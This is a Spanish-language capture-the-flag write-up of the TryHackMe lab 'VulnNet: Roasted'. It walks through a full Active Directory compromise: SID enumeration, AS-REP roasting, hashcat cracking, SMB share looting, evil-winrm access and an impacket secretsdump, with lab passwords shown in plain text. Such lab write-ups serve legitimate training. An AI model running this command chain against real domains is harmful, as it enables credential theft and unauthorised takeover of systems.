

# VulnNet: Roasted

**Platform:** TryHackMe  
**Difficulty:** Easy  
**IP:** 10.10.52.19

---

## Información Inicial
- **Objetivo:** Obtener las dos banderas tanto del usuario como del administrador de Active Directory.  
- **Herramientas iniciales:** `nmap`, `smbclient`, `smbmap`, `impacket`, `hashcat`, `evil-winrm`.

---

Primero realizamos un escaneo básico con `nmap` para identificar los puertos abiertos y servicios:
```bash 
nmap -sC -sV -p- --min-rate 2000 10.10.52.19
```


A simple vista nos percatamos de que se trata de un entorno de Active Directory, por lo que lo primero que haremos será revisar los permisos de SMB (si estuviera activo).


Tener permisos de lectura sobre IPC$ implica poder enumerar los usuarios del dominio utilizando la herramienta `impacket-lookupsid`.

Ya que de esta herramienta tan solo queremos los nombres de usuario y su respuesta es demasiado larga, vamos a acortar cada cadena con grep y sed. Con esta modificación solo nos devolverá los nombres de usuario en lista.

```bash 
impacket-lookupsid anonymous@10.10.52.19 2>/dev/null | grep "VULNNET-RST\\\\" | sed 's/.*VULNNET-RST\\//; s/ .*//' > users.txt
```


La lista es demasiado larga, de manera que manualmente quitaremos los "usuarios" que obviamente no son correctos.


Esta lista de usuarios nos servirá para realizar un ataque `AS-REP Roasting`, que revisa si estos son válidos y no requeren de autenticación Kerberos. De ser así, nos devolverá un hash.

```bash 
impacket-GetNPUsers vulnnet-rst.local/ -no-pass -usersfile users.txt
```


El usuario t-skid nos devuelve un hash AS-REP, el cuál guardamos en un fichero con ese mismo nombre. Para descifrar este podemos usar la herramienta `hashcat`, haciendo que lo compare con el diccionario Rockyou.

```bash 
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```


Tenemos la contraseña y con esta podemos tratar de acceder a SMB de nuevo, a ver si tenemos acceso a alguna otra ruta.

```bash 
smbmap -H 10.10.52.19 -u t-skid -p 'tj072889*'
```


Ahora tenemos permisos de lectura sobre NETLOGON y SYSVOL.
Entraremos en cada uno de ellos en busca de alguna pista o credencial para continuar con la máquina.

```bash 
smbclient //10.10.52.19/SYSVOL -u t-skid -p 'tj072889*'
```


Con una pequeña búsqueda, encontramos el fichero ResetPassword.vbs. Descargamos este a nuestra máqunia local y examinaremos su interior.


El fichero de reseteo de contraseña contiene las credenciales del usuario a-whitehack. Con este usuario podemos probar a entrar a la máquina víctima con `Evil-WinRM` si tuviera permiso.

```bash 
evil-winrm -i 10.10.52.19 -u 'a-whitehat' -p 'bNdKVkjv3RR9ht'
```


No solo conseguimos acceso al sistema, si no que además encontramos la bandera del usuario dentro del escritorio del usuario enterprise-core-vn.



Tras seguir examinando la máquina durante un rato, no encontramos nada más. En este punto comenzamos a investigar por internet sobre herramientas que pudieramos usar  y dimos con scretsdump de Impacket.

```bash 
impacket-secretsdump vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.52.19
```


La herramienta nos saca diferentes hashes e información del sistema, incluido el hash del administrador que ahora podemos usar para acceder con su cuenta por Evil-WinRM y obtener la bandera del sistema.


